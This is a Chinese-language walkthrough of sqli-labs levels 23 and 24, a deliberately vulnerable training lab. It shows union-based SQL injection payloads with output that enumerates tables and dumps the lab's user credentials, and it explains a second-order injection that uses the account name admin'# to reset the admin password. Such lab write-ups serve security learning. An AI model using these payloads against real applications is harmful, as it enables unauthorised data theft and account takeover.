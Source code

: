 # level23

+ 正常注入

~~~ shell
?id=1'or '1' = '1
~~~

![Less-23-1](./img/Less-23-1.PNG)



~~~ shell
?id=-1' union select 1,database(),version() or '1'='1
~~~

![Less-23-2](./img/Less-23-2.PNG)



~~~ shell
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" or '1'='1
~~~

![Less-23-3](./img/Less-23-3.PNG)

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:innodb_table_stats,innodb_index_stats,CHARACTER_SETS,CHECK_CONSTRAINTS,COLLATIONS,COLLATION_CHARACTER_SET_APPLICABILITY,COLUMNS,COLUMNS_EXTENSIONS,COLUMN_STATISTICS,EVENTS,FILES,INNODB_DATAFILES,INNODB_FOREIGN,INNODB_FOREIGN_COLS,INNODB_FIELDS,INNODB_TABLESPACES_BRIEF,KEY_COLUMN_USAGE,KEYWORDS,PARAMETERS,PARTITIONS,REFERENTIAL_CONSTRAINTS,RESOURCE_GROUPS,ROUTINES,SCHEMATA,SCHEMATA_EXTENSIONS,ST_SPATIAL_REFERENCE_SYSTEMS,ST_UNITS_OF_MEASURE,ST_GEOMETRY_COLUMNS,STATISTICS,TABLE_CONSTRAINTS,TABLE_CONSTRAINTS_EXTENSIONS,TABLES,TABLES_EXTENSIONS,TABLESPACES_EXTENSIONS,TRIGGERS,VIEW_ROUTINE_USAGE,VIEW_TABLE_USAGE,VIEWS,COLUMN_PRIVILEGES,ENGINES,OPTIMIZER_TRACE,PLUGINS,PROCESSLIST,PROFILING,SCHEMA_PRIVILEGES,TABLESPACES,TABLE_PRIVILEGES,USER_PRIVILEGES,cond_instances,error_log,events_waits_current,events_waits_history,events_waits_history_long,events_waits_summary_by_host_by_event_name,events_waits_summary_by_instance,events_waits_summary_by_thread_by_event_name,events_waits_summary_by_user_by_event_name,events_wait
~~~



~~~ shell
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="FILES" or '1'='1
~~~

![Less-23-4](./img/Less-23-4.PNG)

~~~ text
Welcome    Dhakkan
Your Login name:2
Your Password:database_name,table_name,last_update,n_rows,clustered_index_size,sum_of_other_index_sizes,database_name,table_name,index_name,last_update,stat_name,stat_value,sample_size,stat_description,CHARACTER_SET_NAME,DEFAULT_COLLATE_NAME,DESCRIPTION,MAXLEN,CONSTRAINT_CATALOG,CONSTRAINT_SCHEMA,CONSTRAINT_NAME,CHECK_CLAUSE,COLLATION_NAME,CHARACTER_SET_NAME,ID,IS_DEFAULT,IS_COMPILED,SORTLEN,PAD_ATTRIBUTE,COLLATION_NAME,CHARACTER_SET_NAME,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ORDINAL_POSITION,COLUMN_DEFAULT,IS_NULLABLE,DATA_TYPE,CHARACTER_MAXIMUM_LENGTH,CHARACTER_OCTET_LENGTH,NUMERIC_PRECISION,NUMERIC_SCALE,DATETIME_PRECISION,CHARACTER_SET_NAME,COLLATION_NAME,COLUMN_TYPE,COLUMN_KEY,EXTRA,PRIVILEGES,COLUMN_COMMENT,GENERATION_EXPRESSION,SRS_ID,TABLE_CATALOG,TABLE_SCHEMA,TABLE_NAME,COLUMN_NAME,ENGINE_ATTRIBUTE,SECONDARY_ENGINE_ATTRIBUTE,SCHEMA_NAME,TABLE_NAME,COLUMN_NAME,HISTOGRAM,EVENT_CATALOG,EVENT_SCHEMA,EVENT_NAME,DEFINER,TIME_ZONE,EVENT_BODY,EVENT_DEFINITION,EVENT_TYPE,EXECUTE_AT,INTERVAL_VALUE,INTERVAL_FIELD
~~~



+ 在这一步不知道是什么问题，无法提取数据了，并报错

~~~ shell
?id=-1' union select group_concat(database_name) from FILES or '1'='1
~~~

![Less-23-8](./img/Less-23-8.PNG)

~~~ text
Welcome    Dhakkan

Warning: mysql_fetch_array() expects parameter 1 to be resource, boolean given in E:\phpstudy\phpstudy_pro\WWW\sqli-labs\Less-23\index.php on line 38
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'or '1'='1' LIMIT 0,1' at line 1
~~~



+ 重新换一个回显位，并重复以上的三项爆破，这次成功了

~~~ shell
?id=-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema="security"),3 or '1'='1
~~~

![Less-23-6](./img/Less-23-6.PNG)

~~~ text
Welcome    Dhakkan
Your Login name:emails,referers,uagents,users
Your Password:1
~~~



~~~ shell
?id=-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name="users" and table_schema="security"),3 or '1'='1
~~~

![Less-23-7](./img/Less-23-7.PNG)

~~~text
Welcome    Dhakkan
Your Login name:id,password,username
Your Password:1
~~~





~~~ shell
?id=-1' union select 1,(select group_concat(username,password) from users),3 or '1'='1
~~~

![Less-23-5](./img/Less-23-5.PNG)

~~~ text
Welcome    Dhakkan
Your Login name:DumbDumb,AngelinaI-kill-you,Dummyp@ssword,securecrappy,stupidstupidity,supermangenious,batmanmob!le,adminadmin,admin1admin1,admin2admin2,admin3admin3,dhakkandumbo,admin4admin4
Your Password:1
~~~



# level24

~~~ text
第二十四关有一个登录页面和注册页面还要一个修改密码页面，该关卡使用得是二次注入，因为登录页面和注册页面对于密码和账户名都使用mysql_real_escape_string函数对于特殊字符进行转义。这里我们利用的是注册页面，因为虽然存在函数对特殊字符进行转义，但只是在调用sql语句时候进行转义，当注册成功后账户密码存在到数据库的时候是没有转义的，以原本数据存入数据库的。当我们修改密码的时候，对于账户名是没有进行过滤的。
~~~

![09682f62c14141b5ac76ac68f0e119b3](./img/09682f62c14141b5ac76ac68f0e119b3.png)

![e388adf190c942378903432e327bc822](./img/e388adf190c942378903432e327bc822.png)



首先我们看到管理员账户，admin，密码是admin,但是通常情况下我们是不知道密码的，只能猜测管理员账户的admin。我们先注册一个账号名叫<code>admin'#</code>。

![bb41b4eaf6674a4c8c477764c40c51aa](./img/Less-24-3.PNG)



我们先注册一个账号名叫<code>admin'#</code>。可以看到我们成功将有污染的数据写入数据库。**单引号是为了和之后密码修改的用户名的单引号进行闭合，#是为了注释后面的数据。**

![Less-24-1](./img/Less-24-1.PNG)

![5e342978e3b54ffc963764f8deb51beb](./img/Less-24-4.PNG)

之后也用户名admin'#和密码是123456登录，进入修改密码页面。原始密码输入123456，新密码我输入的是111111，可以看到密码修改成功。

![Less-24-2](./img/Less-24-5.PNG)

![0a62e48c4af84c5b87204405aaaa86fa](./img/Less-24-6.PNG)

![e5be9e28d556404ca90911d44f4ff881](./img/Less-24-7.PNG)

![28a3d4e10def4be98a151bea907b8270](./img/28a3d4e10def4be98a151bea907b8270.png)

当我们数据库查看的时候发现修改的是管理员的密码。而不是我们的注册账户的密码。

![ae806d5ca34d4b1990c78b1983e8a214](./img/Less-24-8.PNG)

